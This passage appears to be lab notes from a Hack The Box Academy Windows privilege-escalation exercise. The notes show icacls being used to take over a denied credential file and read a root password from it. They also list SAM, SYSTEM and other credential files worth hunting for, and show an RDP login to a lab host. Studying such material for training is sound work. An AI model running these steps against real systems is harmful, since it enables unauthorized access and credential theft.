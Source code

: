 ```
cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files

```

### Reading the File

```
cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!

```

### Example of local files of interest

c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav

files such as passwords.*, pass.*, creds.*, *.kdbx

## LAB

xfreerdp /v:10.129.113.23 /u:htb-student /p:HTB_@cademy_stdnt!

cat C:\TakeOwn\flag.txt

cat : Access to the path 'C:\TakeOwn\flag.txt' is denied.
At line:1 char:1
+ cat C:\TakeOwn\flag.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\TakeOwn\flag.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
